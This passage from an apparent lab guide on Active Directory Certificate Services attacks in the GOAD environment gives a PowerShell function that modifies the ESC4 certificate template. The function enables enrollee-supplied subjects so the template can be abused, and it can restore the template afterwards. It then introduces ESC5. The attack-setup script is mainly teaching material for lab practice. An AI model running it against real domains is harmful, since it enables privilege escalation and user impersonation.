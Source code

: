 ```bash
[*] Template ESC4 restored to original configuration
```

### PowerShell Template Modification

Here's a more robust script for template modification in GOAD:

```bash
function Modify-CertificateTemplate {
    param(
        [string]$TemplateName,
        [switch]$EnableSubjectAltName,
        [switch]$Restore,
        [string]$Domain = "essos.local"
    )

    $configPath = "CN=Configuration," + (Get-ADDomain -Identity $Domain).DistinguishedName
    $templatePath = "CN=$TemplateName,CN=Certificate Templates,CN=Public Key Services,CN=Services,$configPath"

    try {
        $template = Get-ADObject $templatePath -Properties "msPKI-Certificate-Name-Flag"

        if ($Restore) {
            # Restore to secure setting
            Set-ADObject $template.DistinguishedName -Replace @{"msPKI-Certificate-Name-Flag"=0}
            Write-Host "[+] Template $TemplateName restored to secure configuration"
        } else {
            # Enable ENROLLEE_SUPPLIES_SUBJECT
            Set-ADObject $template.DistinguishedName -Replace @{"msPKI-Certificate-Name-Flag"=1}
            Write-Host "[+] Template $TemplateName modified to enable subject specification"
        }

        # Wait for AD replication
        Write-Host "[*] Waiting for AD replication..."
        Start-Sleep -Seconds 30

    } catch {
        Write-Error "Failed to modify template: $($_.Exception.Message)"
    }
}

# Usage in GOAD environment
Modify-CertificateTemplate -TemplateName "ESC4" -EnableSubjectAltName -Domain "essos.local"
# ... perform attack ...
Modify-CertificateTemplate -TemplateName "ESC4" -Restore -Domain "essos.local"
```

## ESC5: Vulnerable PKI Object Access Control

ESC5 exploits weak permissions on PKI objects themselves, including the CA server and certificate templates container.
